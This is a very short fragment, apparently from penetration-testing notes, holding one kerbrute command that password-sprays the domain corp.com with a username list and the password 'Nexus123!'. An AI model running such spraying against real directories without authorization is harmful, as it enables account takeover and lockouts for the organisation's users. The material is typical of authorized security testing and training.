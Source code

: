 
### Internal password spraying
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```